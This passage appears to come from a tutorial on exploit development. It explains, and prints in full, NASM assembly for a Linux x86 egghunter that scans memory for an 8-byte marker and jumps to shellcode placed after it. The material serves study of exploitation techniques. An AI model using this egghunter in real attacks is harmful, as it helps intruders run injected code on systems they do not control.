 Finally, after the egg is found, the `JMP` instruction is used to redirect execution to the shellcode. Note that the second `SCASD` instruction will result in the memory address that was initially stored in `EDI` to be `EDI+8`. This means that the `JMP EDI` instruction will result in execution continuing beyond the 8 byte egg at the first byte of the shellcode!

### Full Code

```nasm
; egghunter.nasm
; Author: Michael Norris
; Credit: Matt Miller

global _start

section .text
_start:
    xor edx, edx        ; clear EDX

align_page:
    ;sets EDX to PAGE_SIZE-1
    or dx, 0xfff        ; sets EDX to fff; e.g. 0x0fff, 0x1fff

inc_address:
    inc edx             ; increases EDX by one; e.g. 0x1000, 0x2000, 0x2001

    ; preparation for SYS_access
    ; int access(const char *pathname, int mode);
    lea ebx, [edx+0x4]  ; pathname
    push byte 0x21      ; system call number for access
    pop eax             ; 0x21
    int 0x80            ; software interrupt; returns 0xfffffff2 on EFAULT

    ; compare return value of SYS_access to find writable page
    cmp al, 0xf2        ; sets ZF when comparison is true
    jz align_page       ; jumps to align_page when ZF is set

    ; prepares for egg hunt
    mov eax, 0x50905090 ; 4-byte egghunter key
    mov edi, edx        ; EDX contains memory address of writable page
    
    ; hunts for first 4 bytes of egg; scasd sets ZF when match is true
    scasd               ; compares [EDI] to value in EAX; increments EDI by 4 
    jnz inc_address     ; jumps to inc_address when ZF is not set
    
    ; hunts for last 4 bytes of egg
    scasd               ; hunts for last 4 bytes of egg
    jnz inc_address

    ; jumps to beginning of shellcode
    jmp edi
```
